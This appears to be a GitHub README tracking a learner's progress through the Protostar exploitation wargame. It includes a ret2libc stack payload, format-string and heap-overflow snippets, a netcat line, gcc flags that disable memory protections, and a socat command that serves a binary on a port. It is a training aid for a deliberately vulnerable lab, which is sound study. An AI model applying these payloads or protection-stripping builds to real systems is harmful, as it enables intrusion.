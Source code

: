 # Protostar

## Stack
- [x] stack0
- [x] stack1
- [x] stack2
- [x] stack3
- [x] stack4
- [x] stack5
- [x] stack6
- [x] stack7
```
import struct

padding = "AAAABBBBCCCCDDDDEEEEFFFFGGGGHHHHIIIIJJJJKKKKLLLLMMMMNNNNOOOOPPPPQQQQRRRRSSSSTTTT"
return_op = struct.pack("I",0x08048544)
call_system = struct.pack("I",0xb7ecffb0)
after_system_execution = struct.pack("I",0xb7ec60c0)
bin_sh_path = struct.pack("I",0xb7fb63bf)
print padding + return_op + call_system + after_system_execution + bin_sh_path
```

## Format String
- [x] format0
- [x] format1
- [x] format2
```
%n4u (replace 4 with additional data you want for %n )
```
- [x] format3
- [x] format4

## Heap
- [x] heap0
- [x] heap1
```
./heap1 "`/bin/echo -ne "AAAABBBBCCCCDDDDEEEE\x74\x97\x04\x08"`" "`/bin/echo -ne "\x94\x84\x04\x08"`"
```
- [x] heap2
```
exploiting use-after-free bug
```
- [x] heap3
```
need to create a fake chunk and unlink it explictly
then forward & backward pointer is abused to write change the PLT

hence executing the winner function
```

## Network

- [x] net0
```
echo -ne "`cat -`" | nc 127.0.0.1 2999

to enter the little endian string
```
- [ ] net1
- [ ] net2

## Final
- [ ] final0
- [ ] final1
- [ ] final2

## Create a Binary with no stack canary, executable stack and no PIE (Position Independent Code)
```
gcc <input> -o <output> -fno-stack-protector -z execstack -no-pie
```

## Using socat on binary file
attaching binary to the port
```
socat TCP-LISTEN:1337,nodelay,reuseaddr,fork EXEC:"stdbuf -i0 -o0 -e0 ./<Program name>"
```

# Reference
- https://old.liveoverflow.com/binary_hacking/protostar/index.html
- https://exploit.education/protostar/
- https://ctf101.org/binary-exploitation/overview/

# Writeup & Video
- https://kevinalmansa.github.io/write-ups/Protostar-Stack-Write-up/
- https://www.youtube.com/playlist?list=PLhixgUqwRTjxglIswKp9mpkfPNfHkzyeN
- https://failingsilently.wordpress.com/exploit-development/
- https://www.ayrx.me/protostar-walkthrough-format ( format string writeup )

# Tools
- https://github.com/inaz2/roputils
- https://github.com/JonathanSalwan/ROPgadget
